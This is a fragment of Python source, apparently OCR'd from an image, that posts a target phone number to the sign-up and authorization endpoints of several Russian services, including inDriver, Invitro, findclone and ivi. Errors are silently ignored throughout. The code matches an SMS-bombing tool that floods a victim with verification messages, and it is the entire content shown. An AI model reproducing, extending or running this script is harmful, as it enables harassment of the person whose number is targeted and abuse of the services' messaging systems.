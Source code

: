         except:

            s=s

        try:

            requests.post("https://terra-1.indriverapp.com/api/authorization?locale=ru",data={"mode": "request", "phone": "+" + _phone,"phone_permission": "unknown", "stream_id": 0, "v": 3, "appversion": "3.20.6","osversion": "unknown", "devicemodel": "unknown"})

        except:

            s=s

        try:

            requests.post("https://lk.invitro.ru/sp/mobileApi/createUserByPassword", data={"password": password, "application": "lkp", "login": "+" + _phone})

        except:

            s=s

        try:

            requests.get('https://findclone.ru/register', params={'phone': '+' + _phone})

        except:

            s=s

        try:

            requests.post('https://ube.pmsm.org.ru/esb/iqos-phone/validate',json={"phone": _phone})

        except:

            s=s

        try:

            requests.post("https://api.ivi.ru/mobileapi/user/register/phone/v6",data={"phone": _phone})

        except:

            s=s
